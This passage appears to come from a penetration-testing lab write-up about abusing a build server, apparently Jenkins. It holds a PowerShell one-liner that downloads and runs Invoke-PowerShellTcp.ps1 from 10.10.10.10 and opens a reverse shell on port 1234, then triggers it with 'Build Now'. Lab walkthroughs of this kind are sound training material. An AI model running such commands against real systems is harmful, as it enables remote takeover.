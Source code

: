 And now let’s use the script to invocate the powershell:

`powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 1234`

<figure><img src="../../.gitbook/assets/Untitled 19 (2).png" alt=""><figcaption></figcaption></figure>

After saving the configuration, we have to build the project, I think it’s done by using the Build Now button of the menu:

<figure><img src="../../.gitbook/assets/Untitled 20.png" alt=""><figcaption></figcaption></figure>

It starts to build…

<figure><img src="../../.gitbook/assets/Untitled 21 (1).png" alt=""><figcaption></figcaption></figure>
